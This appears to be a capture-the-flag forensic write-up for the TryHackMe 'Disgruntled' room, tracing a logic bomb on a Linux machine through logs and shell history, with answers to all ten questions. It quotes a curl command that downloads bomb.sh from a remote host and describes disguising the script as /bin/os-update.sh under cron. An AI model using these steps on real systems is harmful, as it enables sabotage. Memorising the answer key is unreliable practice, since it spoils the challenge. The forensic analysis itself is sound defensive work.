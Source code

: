 # Disgruntled [here](https://tryhackme.com/room/disgruntled)

## Scenario
An IT department employee at CyberT, a client company, was arrested for running a phishing operation. CyberT has tasked us with investigating the employee's last-used machine to determine if any malicious actions were performed on their assets. The investigation focuses on privileged commands, user account activity, file operations, and persistence mechanisms to uncover a potential "logic bomb" designed to harm the company's systems.

## Investigation Approach
1. **Initial Access and User Identification**:
   - Logged in as the `root` user on the target machine.
   - Checked `/etc/passwd` to identify user accounts, expecting the disgruntled IT employee to use a non-root account (`cybert` or `itadmin`) to avoid suspicion. Found three users: `ubuntu`, `cybert`, and `itadmin`. Focused on `cybert` as the likely primary account and `itadmin` for suspicious activity.
   - **Screenshot**: ![User Accounts](screenshots/1.png)

2. **Privileged Commands**:
   - Examined `/var/log/auth.log*` for `sudo` commands executed by `cybert` to confirm the installation of the authorized service (`dokuwiki`). Also checked `cybert`’s `~/.bash_history` for related commands to identify the command and working directory.

3. **User and Privilege Escalation**:
   - Grep’d `useradd` or `adduser` in `cybert`’s `~/.bash_history` to find new user accounts created post-installation.
   - Searched `auth.log*` for `visudo` to detect `sudoers` file updates, focusing on timestamps after the `dokuwiki` installation to confirm privilege escalation.
   - Investigated `itadmin`’s `~/.bash_history` for `vi` commands to identify script creation or editing.

4. **File Analysis**:
   - Grep’d `sh` in `itadmin`’s `~/.bash_history` to find the creation command for `bomb.sh`, which no longer exists.
   - Checked `itadmin`’s `~/.viminfo` to trace file renaming or movement, identifying the new location of `bomb.sh`.
   - Used `ls -la --full-time` to retrieve the modification time of the renamed file.
   - Analyzed the script’s contents to identify files created upon execution.

5. **Persistence Mechanisms**:
   - Inspected `/etc/crontab` to find scheduled tasks, confirming the execution time of the malicious script.

## Challenge Questions and Findings

### 1. Privileged Command for Package Installation
**Question**: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

**Answer**: `/usr/bin/apt install dokuwiki`

**Screenshot**: ![Privileged Command](screenshots/2.png)

### 2. Present Working Directory (PWD) for Command
**Question**: What was the present working directory (PWD) when the previous command was run?

**Answer**: `/home/cybert`

**Screenshot**: ![PWD](screenshots/2.png)

### 3. User Created After Package Installation
**Question**: Which user was created after the package from the previous task was installed?

**Answer**: `it-admin`

**Screenshot**: ![User Creation](screenshots/3.png)

### 4. Sudoers File Update Time
**Question**: A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

**Answer**: `Dec 28 06:27:34`

**Screenshot**: ![Sudoers Update](screenshots/4.png)

### 5. Script File Opened in vi
**Question**: A script file was opened using the "vi" text editor. What is the name of this file?

**Answer**: `bomb.sh`

**Screenshot**: ![Script File](screenshots/5.png)

### 6. Command That Created bomb.sh
**Question**: What is the command used that created the file `bomb.sh`?

**Answer**: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Screenshot**: ![Create Command](screenshots/6.png)

### 7. Current Full Path of Renamed File
**Question**: The file was renamed and moved to a different directory. What is the full path of this file now?

**Answer**: `/bin/os-update.sh`

**Screenshot**: ![Renamed File](screenshots/7.png)

### 8. Last Modified Time of Renamed File
**Question**: When was the file from the previous question last modified? (Format: Month Day HH:MM)

**Answer**: `Dec 28 06:29`

**Screenshot**: ![Modification Time](screenshots/8.png)

### 9. File Created by Script Execution
**Question**: What is the name of the file that will get created when the file from the first question executes?

**Answer**: `goodbye.txt`

**Screenshot**: ![Created File](screenshots/9.png)

### 10. Trigger Time of Malicious File
**Question**: At what time will the malicious file trigger? (Format: HH:MM AM/PM)

**Answer**: `08:00 AM`

**Screenshot**: ![Cron Schedule](screenshots/10.png)


